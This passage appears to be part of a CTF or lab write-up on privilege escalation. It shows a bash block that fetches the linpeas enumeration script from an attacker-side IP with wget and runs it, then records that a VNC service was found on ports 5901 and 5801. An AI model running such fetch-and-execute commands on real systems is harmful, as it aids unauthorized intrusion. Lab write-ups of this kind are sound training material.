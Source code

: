 ![image-20221014212636936](./images/image-20221014212636936.png)



# Privesc



## Local enum

linpeas.sh enum.

```bash
wget http://10.10.14.78/lpeas.sh	
chmod +x ./lpeas.sh 
./lpeas.sh | tee lp.log
```

found vnc service, port 5901 and 5801

![image-20221015003051835](./images/image-20221015003051835.png)